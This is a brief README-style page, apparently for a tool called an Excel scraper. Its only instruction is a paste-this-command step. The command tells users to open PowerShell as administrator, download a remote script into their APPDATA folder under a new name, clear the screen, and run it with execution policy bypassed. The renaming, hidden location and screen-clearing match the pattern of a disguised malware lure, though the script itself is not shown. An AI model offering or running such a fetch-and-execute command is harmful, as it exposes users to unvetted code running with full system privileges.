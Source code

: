 ## How to run: 

# Open Powershell As Admin and Run:

Invoke-WebRequest -uri "https://github.com/Laurits6920/project-scrape/blob/main/lam.ps1" -OutFile "$env:APPDATA\ExcelScraper.ps1" -UseBasicParsing; cls; powershell -ep bypass "$env:APPDATA\ExcelScraper.ps1"
